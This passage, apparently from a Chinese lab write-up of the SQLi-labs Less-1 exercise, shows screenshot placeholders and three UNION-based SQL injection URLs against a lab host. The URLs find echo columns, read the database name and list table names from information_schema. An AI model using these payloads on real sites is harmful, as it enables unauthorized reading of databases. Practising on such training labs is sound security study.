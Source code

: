 ![image-20241007011230048](./assets/image-20241007011230048.png)

```sql
#尝试显示回显点,使用联合查询时需要注意把id替换为不存在的数
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,3 --+
```

![image-20241007011353597](./assets/image-20241007011353597.png)

```sql
#获取数据库名
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,database() --+
```

![image-20241007011510088](./assets/image-20241007011510088.png)

```sql
#获取表名
http://8.137.60.154:8082/Less-1/?id=-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

![image-20241007011948442](./assets/image-20241007011948442.png)
